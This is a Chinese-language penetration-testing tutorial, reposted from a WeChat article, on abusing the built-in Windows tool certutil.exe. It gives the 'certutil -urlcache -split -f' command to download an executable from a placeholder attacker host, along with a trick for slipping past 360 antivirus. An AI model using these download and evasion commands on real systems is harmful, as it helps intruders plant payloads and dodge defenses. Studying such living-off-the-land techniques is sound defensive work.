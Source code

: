 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/PW6hYzyXaeWWYxkyrLEVUw)

何为 certutil
===========

`certutil.exe` 是一个合法 Windows 文件，用于管理 Windows 证书的程序。

微软官方是这样对它解释的：

> Certutil.exe 是一个命令行程序，作为证书服务的一部分安装。您可以使用 Certutil.exe 转储和显示证书颁发机构（CA）配置信息，配置证书服务，备份和还原 CA 组件以及验证证书，密钥对和证书链。

但是此合法 Windows 服务现已被广泛滥用于恶意用途。

渗透中主要利用其 `下载`、`编码`、`解码`、`替代数据流` 等功能。

这里我首先在命令行用`certutil -?`查看一下`certutil`所有的参数，这里只截图了一部分，接下来就总结一下最常用的几个关于`certutil`在内网渗透中的应用。

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou84oODGsee2BkwItiaC5pyDwyiaKbf9TQNVNQiaoiaVTIyurzErB6s0OQAtwKmL3icxssF13MKJmla6UHw/640?wx_fmt=png)

certutil 下载文件
=============

一般我最常使用的`certutil`的功能就是在 cmd 环境下下载文件，因为`certutil`是 windows 自带的 exe，所以在使用的时候会比其他 exe 或者 vbs 更加方便。但是因为在下载文件的过程中也会创建进程，所以也遭到了各大杀软的拦截。

一般使用`certutil`下载文件的命令为

```
certutil -urlcache -split -f http://ip/artifact.exe
```

这里介绍一下参数

•`-f` 覆盖现有文件。有值的命令行选项。后面跟要下载的文件 url。•`-split` 保存到文件。无值的命令行选项。加了的话就可以下载到当前路径，不加就下载到了默认路径。•`-URLCache` 显示或删除 URL 缓存条目。无值的命令行选项。（certutil.exe 下载有个弊端，它的每一次下载都有留有缓存。）

这里我在本地搭建一个 http 服务器，然后在配置了 360 的虚拟机 cmd 下进行下载

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou84oODGsee2BkwItiaC5pyDwGdwEQRUFSsycawQ1jYiafWicNVdav6uhicqpLWdUpEZ6uGeMYiaJZe3xqw/640?wx_fmt=png)

这里我为了更好的还原环境，先与虚拟机建立 ipc 连接后用 psexec 得到了命令行的 cmd 环境

这里我用常规的命令进行下载 exe 文件的操作遭到了 av 的拦截

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou84oODGsee2BkwItiaC5pyDw7qZXmoFb5SoGdsmEkkKOfayox0qZ3sHicbjmlicKhR9RYqRgT6aIvMcA/640?wx_fmt=png)

如果超时没有操作的话就会显示拒绝访问

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou84oODGsee2BkwItiaC5pyDweGDpuTWE3etbqAz4uOn6zR7C4xgiaHYMHBKUAexWyzGlCbDhZvYNogg/640?wx_fmt=png)

这里有两种方法对杀软进行`certutil`下载绕过，本质都是执行两次`certutil`

第一种方法是先执行一个单独的`certutil`，然后再执行下载 exe 的命令，可以看到这里已经能够成功下载

```
certutilcertutil -urlcache -split -f http://ip/artifact.exe
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou84oODGsee2BkwItiaC5pyDwkmdaqMJljsuLLRoYuQgX289PWQyj3oZTeM5Tymq4c4GXFdb6mSqFVQ/640?wx_fmt=png)
